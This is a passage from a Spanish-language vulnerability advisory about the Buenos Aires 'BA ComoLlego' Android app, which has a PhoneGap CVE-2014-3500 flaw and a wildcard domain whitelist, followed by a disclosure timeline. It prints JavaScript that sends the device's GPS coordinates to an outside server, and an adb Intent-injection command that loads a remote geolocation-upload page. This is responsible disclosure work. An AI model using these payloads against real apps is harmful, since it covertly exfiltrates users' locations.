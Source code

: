     Así, inyectando el siguiente código en el pedido a la librería, se podría acceder a la ubicación del cliente cada vez que intente utilizar la aplicación. 
  
```
function onSuccess(position) {

        var request = new XMLHttpRequest();
        request.open("GET", "http://www.fundacionsadosky.org.ar/?lat="+position.coords.latitude+"&long="+position.coords.longitude, true);
        request.send();

    }

// onError Callback receives a PositionError object
//
function onError(error) {
    console.log('code: '    + error.code    + '\n' +
          'message: ' + error.message + '\n');
}

var watchID = navigator.geolocation.getCurrentPosition(onSuccess, onError, { timeout: 300000,enableHighAccuracy: true,maximumAge: 300000 });


```

   BA ComoLLego versión 1 utiliza la versión de PhoneGap 2.3.0 que es vulnerable a CVE-2014-3500 [3] permitiendole a otras aplicaciones cambiar la página de inicio de la aplicación por una con contenido malicioso a través de un Intent que lleve un parámetro extra con referencia al contenido bajo la clave _url_. 
    
   La correcta configuración del framework podría llegar a bloquear dicho ataque cuando se restringen los dominios a los cuales la aplicación se puede conectar a través del archivo de configuración _res/xml/config.xml_. Sin embargo, BA ComoLlego permite a la aplicación acceder a cualquier dominio dado a que para filtrar los accesos utiliza un comodín.
    
    Como prueba de concepto que la aplicación es vulnerable a CVE-2014-3500 se puede enviar el siguiente comando a través de adb (Android Debug Bridge) que simularía ser una aplicación que envía un Intent malicioso que inyecta Javascript utilizando el módulo _Geolocation_[4] logrando que una aplicación sin permiso pueda subir remotamente la ubicación del dispositivo a un servidor remoto.
  
_ adb shell am start -n ar.gob.buenosaires.comollego/.comollego --es url "https://googledrive.com/host/0B0f57xoYl_BFOG5FMEhpc3AzckU/upload_geo.html"_

## 8. Cronología del reporte

* **2014-02-11:** 
          Se envió mail solicitando contacto para reportar problemas de seguridad en aplicaciones móviles
        
* **2014-02-18:** 
          Se recibió respuesta del GCBA requiriendo información para reneviarsela a quien corresponda
        
* **2014-02-18:** 
          Se envió un descripción técnica del problema.
        